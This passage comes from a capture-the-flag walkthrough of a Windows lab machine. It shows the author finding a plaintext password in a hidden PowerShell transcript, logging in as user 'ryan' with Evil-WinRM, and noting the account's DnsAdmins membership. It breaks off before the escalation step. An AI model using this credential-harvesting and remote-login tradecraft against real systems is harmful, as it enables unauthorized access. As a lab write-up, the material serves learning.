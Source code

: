 ```jsx
-a-hs-        5/20/2020   9:26 PM      402653184 pagefile.sys
```

After going into a few more hidden folders we find a PowerShell Transcript file (PowerShell Transcript files record all the activities in the PowerShell console to a text file)

```jsx
*Evil-WinRM* PS C:\PStranscripts\20191203> ls -h

    Directory: C:\PStranscripts\20191203

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```

In this text file we find credentials for a "ryan" user

```jsx
...

PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!

...
```

We can now login using evil-winrm with ryan

```jsx
evil-winrm -u ryan -p Serv3r4Admin4cc123! -i 10.10.10.169

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\ryan\Documents>
```

We don't find a flag but we do find this note

```jsx
*Evil-WinRM* PS C:\Users\ryan\Desktop> cat note.txt
Email to team:

- due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute
```

Running whoami /all as ryan tells us that we're apart of the DNSAdmins group

```jsx
C:\Users\ryan\Documents> whoami /all
...

MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192

...
```
